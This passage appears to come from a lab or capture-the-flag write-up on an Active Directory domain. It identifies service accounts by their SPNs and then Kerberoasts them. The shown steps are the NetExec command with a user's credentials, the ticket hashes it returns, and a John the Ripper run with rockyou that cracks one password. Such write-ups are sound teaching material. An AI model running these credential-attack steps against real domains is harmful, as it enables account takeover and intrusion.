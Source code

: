 The `servicePrincipalName` format generally follows the pattern of `service/hostname:port` or `service/hostname`, indicating the service type and the host it is associated with. In this case, we have two users with SPNs set: `svc_vdi` and `svc_sql`. Based on the SPNs, we can infer that `svc_vdi` is likely associated with a [Virtual Desktop Infrastructure (VDI)](https://azure.microsoft.com/en-us/resources/cloud-computing-dictionary/what-is-virtual-desktop-infrastructure-vdi) service running on `vdi.antennae.rv`, while `svc_sql` is associated with a [Microsoft SQL Server](https://www.microsoft.com/en-us/sql-server/sql-server-downloads) service running on `sql01.antennae.rv` on the default SQL port `1433`.

We can perform a [Kerberoasting](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/kerberoasting/) attack on either of these users to obtain an encrypted service ticket for their respective services. These tickets will be encrypted with the service account's password, which we can then attempt to crack offline.

> Kerberoasting is not inherently malicious, requesting service tickets for services is an integral part of Kerberos. This technique only becomes lucrative when the service account is using a weak password.

### Roasting (The Easy Way)

We can request service tickets for both users using [NetExec](https://www.netexec.wiki/ldap-protocol/kerberoasting), and write the output to a file called `service_tickets.txt`:

```
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --kerberoasting service_tickets.txt                                                           
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
LDAP        10.5.10.10      389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.5.10.10      389    DC01             [*] Total of records returned 2
LDAP        10.5.10.10      389    DC01             [*] sAMAccountName: svc_vdi, memberOf: CN=Service Accounts,CN=Users,DC=antennae,DC=rv, pwdLastSet: 2025-08-28 15:16:57.992825, lastLogon: 2025-08-28 15:17:30.758637
LDAP        10.5.10.10      389    DC01             $krb5tgs$23$*svc_vdi$ANTENNAE.RV$antennae.rv\svc_vdi*$1b38c1a87120eefcd7717394fbb96d[....snip...]dc5aa8d0085bbebc39e64c248495570f61b5e1a157
LDAP        10.5.10.10      389    DC01             [*] sAMAccountName: svc_sql, memberOf: CN=Service Accounts,CN=Users,DC=antennae,DC=rv, pwdLastSet: 2025-08-28 15:16:58.149076, lastLogon: 2025-08-30 07:37:42.373093
LDAP        10.5.10.10      389    DC01             $krb5tgs$23$*svc_sql$ANTENNAE.RV$antennae.rv\svc_sql*$a66fad26fc10f1372475[...snip...]0eace690f78af8994cc2d7338f0bbc79ee152ab5cb6
```

Next, we can attempt to crack these service tickets using [John the Ripper](https://www.openwall.com/john/) with the [rockyou.txt](https://weakpass.com/wordlists/rockyou.txt) wordlist. 

```
~$ john --wordlist=/usr/share/wordlists/rockyou.txt service_tickets.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tr4v15           (?)     
```
